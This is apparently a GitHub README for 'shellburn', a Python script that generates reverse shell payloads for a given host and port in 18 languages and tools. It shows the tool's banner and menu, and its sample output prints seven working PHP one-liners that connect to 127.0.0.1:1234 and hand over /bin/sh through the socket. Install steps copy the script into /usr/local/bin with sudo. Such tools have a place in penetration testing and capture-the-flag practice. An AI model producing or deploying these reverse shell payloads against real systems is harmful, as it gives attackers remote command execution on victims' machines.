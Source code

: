 # shellburn
  this is the automate generetor of reverse shell's payload.
  
  first args are host, 2nd args to port
  
```
$ ./shellburn.py 127.0.0.1 1234

 (                                              
 )\ )    )       (   (    (                     
(()/( ( /(    (  )\  )\ ( )\    (   (           
 /(_)))\())  ))\((_)((_))((_)  ))\  )(    (     
(_)) ((_)\  /((_)_   _ ((_)_  /((_)(()\   )\ )  
/ __|| |(_)(_)) | | | | | _ )(_))(  ((_) _(_/(  
\__ \| ' \ / -_)| | | | | _ \| || || '_|| ' \)) 
|___/|_||_|\___||_| |_| |___/ \_,_||_|  |_||_|  
--------------------------------------------------
reverse_shell_payload_generator_


[>]YourIP: 127.0.0.1 [>]Port: 1234
```

appear the number for payloads 

```
+-+--->>
|0|Awk.
+-+---->>
|1|Bash.
+-+---------->>
|2|C_language.
+-+------>>
|3|Groovy.
+-+---->>
|4|Java.
+-+--->>
|5|Lua.
+-+---->>
|6|Ncat.
+-+------>>
|7|Netcat.
+-+------>>
|8|NodeJS.
+-+------->>
|9|OpenSSL.
+--+---->>
|10|Perl.
+--+---------->>
|11|Powershell.
+--+------>>
|12|Python.
+--+----->>
|13|Socat.
+--+------>>
|14|Telnet.
+--+------>>
|15|golang.
+--+--->>
|16|php.
+--+---->>
|17|ruby.
+-+---->>

[+]Select the Number of payload
> 
```

choise the number and then display the payload and that's included host and ports from args

```
[+]Select the Number of payload
> 16
[>]Selected: php

    php -r '$sock=fsockopen("127.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
    
    php -r '$sock=fsockopen("127.0.0.1",1234);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
    
    php -r '$sock=fsockopen("127.0.0.1",1234);`/bin/sh -i <&3 >&3 2>&3`;'
    
    php -r '$sock=fsockopen("127.0.0.1",1234);system("/bin/sh -i <&3 >&3 2>&3");'
    
    php -r '$sock=fsockopen("127.0.0.1",1234);passthru("/bin/sh -i <&3 >&3 2>&3");'
    
    php -r '$sock=fsockopen("127.0.0.1",1234);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
    
    php -r '$sock=fsockopen("127.0.0.1",1234);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
    
$ 

```
# Execute like a Command in anywhere

```
git clone https://github.com/Ki11i0n4ir3/shellburn.git

cd shellburn

chmod +x shellburn.py

sudo cp shellburn.py /usr/local/bin/shellburn

sudo cp -r shellpalm /usr/local/bin/shellpalm

./shellburn <Lhost> <Lport>

```


![alt text](https://github.com/Ki11i0n4ir3/gifs/blob/main/kids_geek.gif)
